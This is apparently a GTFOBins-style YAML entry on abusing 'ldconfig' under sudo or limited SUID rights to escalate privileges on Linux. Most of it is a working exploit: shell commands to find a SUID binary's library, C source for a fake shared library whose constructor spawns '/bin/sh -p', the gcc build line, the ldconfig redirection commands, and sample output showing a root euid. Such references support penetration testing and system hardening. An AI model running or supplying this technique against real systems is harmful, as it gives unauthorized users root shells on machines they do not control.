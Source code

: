 description: |
  Follows a minimal example of how to use the described technique (details may change across different distributions).

  Run the code associated with the technique.

  Identify a target SUID executable, for example the `libcap` library of `ping`:

  ```
  $ ldd /bin/ping | grep libcap
        libcap.so.2 => /tmp/tmp.9qfoUyKaGu/libcap.so.2 (0x00007fc7e9797000)
  ```

  Create a fake library that spawns a shell at bootstrap:

  ```
  echo '#include <unistd.h>

  __attribute__((constructor))
  static void init() {
      execl("/bin/sh", "/bin/sh", "-p", NULL);
  }
  ' >"$TF/lib.c"
  ```

  Compile it with:

  ```
  gcc -fPIC -shared "$TF/lib.c" -o "$TF/libcap.so.2"
  ```

  Run `ldconfig` again as described below then just run `ping` to obtain a root shell:

  ```
  $ ping
  # id
  uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
  ```
functions:
  sudo:
    - description: This allows to override one or more shared libraries. Beware though that it is easy to *break* target and other binaries.
      code: |
        TF=$(mktemp -d)
        echo "$TF" > "$TF/conf"
        # move malicious libraries in $TF
        sudo ldconfig -f "$TF/conf"
  limited-suid:
    - description: This allows to override one or more shared libraries. Beware though that it is easy to *break* target and other binaries.
      code: |
        TF=$(mktemp -d)
        echo "$TF" > "$TF/conf"
        # move malicious libraries in $TF
        ./ldconfig -f "$TF/conf"
---
